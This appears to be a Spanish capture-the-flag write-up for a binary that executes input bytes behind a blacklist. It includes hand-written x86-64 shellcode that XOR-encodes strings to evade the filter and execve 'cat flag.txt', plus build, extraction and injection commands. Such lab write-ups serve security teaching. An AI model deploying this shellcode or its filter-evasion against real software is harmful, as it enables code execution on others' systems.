

# Analisis del Binario
Tenemos un binario ejecutable de 64 bits con el NX desabilitado.



Al ejecutar el binario nos recibe con el siguiente mensaje, donde dependiendo nuestra respuesta se acontece un segmentation fault.

```
Hey, just because I am hungry doesn't mean I'll execute everything
asd
Hehe, told you... won't accept everything
```

# Analisis del Codigo

Al analizar el codigo vemos que los bytes que introduzcamos son interpretados pudiendo ejecutar instrucciones, sin embargo tambien 
vemos presente una blacklist.

# Explotacion

### Creacion del shellcode
Existen diversas herramientas en la web que nos permiten crear shellcodes, un ejemplo claro tenemos msfvenom, sin embargo la serie de
limitantes que nos ocasiona la estructura del codigo hace dificil el uso de herramientas automatizadas, toca crearlo a mano.

### Instrucciones en ASM-x64

Como estamos en presencia de un binario de 64 bits, nuestro objetivo sera leer el archivo flag.txt, vamos a crearlo.

```asm
section .text
    global _start

_start:
; ---- Limpiamos el registro RDX, nos servira de separador para las cadenas de texto ----
    mov rdx, r9
    xor rdx,r9

; ---- Insertamos la cadena '/bin/cat' ----
    push rdx                        ; push NULL byte al stack
    mov rbx,0x8b9e9cd091969dd0      ; '/bin/cat' cifrado con xor para bypassear la blacklist
    xor rbx,0xffffffffffffffff      ; desciframos '/bin/cat'
    push rbx
    mov rdi,rsp                     ; RDI -> '/bin/cat'

; ---- Insertamos la cadena 'flag.txt' ---
    push rdx                        ; push NULL byte al stack
    mov rbx,0x8b878bd1989e9399      ; 'flag.txt' cifrado
    xor rbx,0xffffffffffffffff      ; deciframos 'flag.txt'
    push rbx
    mov rsi,rsp                     ; RSI -> 'flag.txt'

; ---- Almacenamos las direcciones y preparamos la pila ---
    push rdx                        ; Null Byte
    push rsi
    push rdi
    mov rsi,rsp                     ; RSI -> ['/bin/cat','flag.txt']

; syscall: execve(const char *pathname, char *const _Nullable argv[],char *const _Nullable envp[]);
    ; rdi: pathname = '/bin/cat'
    ; rsi: args[] = ['/bin/cat flag.txt']
    ; rdx: envp = NULL

; --- Ejecutamos la llamada al sistema ---
    mov al, 60              ; RAX -> execv cuyo valor es [59]
    dec al
    syscall
```

*Nota: Puedes descargar el archivo sin comentarios [aqui](exploit/shellcode.asm)*

Una vez listo, debemos ver si no contiene Null bytes y ninguno de los badchars (si seguiste la guia puedes seguir con normalidad).
Compilamos el binario con los siguientes comandos:

```bash
nasm -f elf64 <filename> -o shellcode.o
ld shellcode.o -o shell
```
Lo ejecutamos para comprobar que todo este bien...

### Generacion del shellcode
Gracias a la siguiente funcion que tengo programada en mi zshrc se puede exctraer el shell code con facilidad.

```bash
extractShell () {
	printf '\\x' && objdump -d $1 | grep "^ " | cut -f2 | xargs | tr -d " " | sed 's/.\{2\}/&\\x/g' | head -c-3
	echo
}
```
Lo copiamos y vamos a la explotacion.

*Puedes agregarlo a tu zsh en la ultima linea*

### Explotacion
Una vez tengamos el shellcode debemos explotar el binario.

```bash
echo -n <shellcode> | ./execute
```


Y listo...
*Nota: [Aqui](exploit/exploit.py) adjunto una herramienta para la explotacion automatizada*

### Referencias
Para profundizar mas el tema consulte:
- https://bista.sites.dmi.unipg.it/didattica/sicurezza-pg/buffer-overrun/hacking-book/0x2a0-writing_shellcode.html


